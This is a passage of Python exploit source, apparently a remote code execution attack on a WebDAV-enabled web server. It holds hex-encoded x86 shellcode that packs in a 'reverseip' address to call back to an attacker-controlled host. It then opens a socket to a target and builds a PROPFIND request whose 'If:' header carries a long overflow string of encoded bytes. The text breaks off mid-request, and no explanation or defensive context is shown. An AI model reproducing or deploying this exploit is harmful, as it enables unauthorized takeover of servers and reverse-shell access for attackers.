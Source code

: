 ```python
'\x44\x00\x00\x00\xC7\x85\x90\xFA\xFF\xFF\x01\x01\x00\x00\x8B\x85'+\
'\xD4\xFC\xFF\xFF\x89\x85\xA4\xFA\xFF\xFF\x8B\x85\xA4\xFA\xFF\xFF'+\
'\x89\x85\xA0\xFA\xFF\xFF\x8B\x85\xA0\xFA\xFF\xFF\x89\x85\x9C\xFA'+\
'\xFF\xFF\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA\xFF\xFF\x50'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x00\x6A\x00\x8D\x85\xE8\xFA'+\
'\xFF\xFF\x50\x6A\x00\xFF\x95\x34\xFA\xFF\xFF\x6A\x01\xFF\x95\x38'+\
'\xFA\xFF\xFF\xE8\xBD\xFB\xFF\xFF'+struct.pack('16s',reverseip)+'\x5F\x5E\x5B\xC9\xC3\x64\xA1\x18'+\
'\x00\x00\x00\x8B\x40\x30\x33\xC9\x8B\x40\x0C\x8B\x40\x1C\x8B\x00'+\
'\x8B\x50\x20\x66\x83\x7A\x10\x2E\x74\x06\x41\x83\xF9\x02\x7C\xEE'+\
'\x8B\x40\x08\xC3\x55\x8B\xEC\x53\x56\x57\x8B\x7D\x08\x83\x65\x08'+\
'\x00\x8B\x47\x3C\x8B\x44\x38\x78\x03\xC7\x8B\x70\x20\x03\xF7\x83'+\
'\x78\x18\x00\x76\x2A\x8B\x0E\x03\xCF\x33\xDB\x8A\x11\x84\xD2\x74'+\
'\x0B\x6B\xDB\x21\x0F\xBE\xD2\x03\xDA\x41\xEB\xEF\x3B\x5D\x0C\x74'+\
'\x15\x83\xC6\x04\xFF\x45\x08\x8B\x4D\x08\x3B\x48\x18\x72\xD6\x33'+\
'\xC0\x5F\x5E\x5B\x5D\xC3\x8B\x48\x24\x8B\x55\x08\x8B\x40\x1C\x8D'+\
'\x0C\x51\x0F\xB7\x0C\x39\x8D\x04\x88\x8B\x04\x38\x03\xC7\xEB\xE1'

shellcodelen = 1744

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect((targetip,targetport))

pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: %d\r\n'%shellcodelen
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
```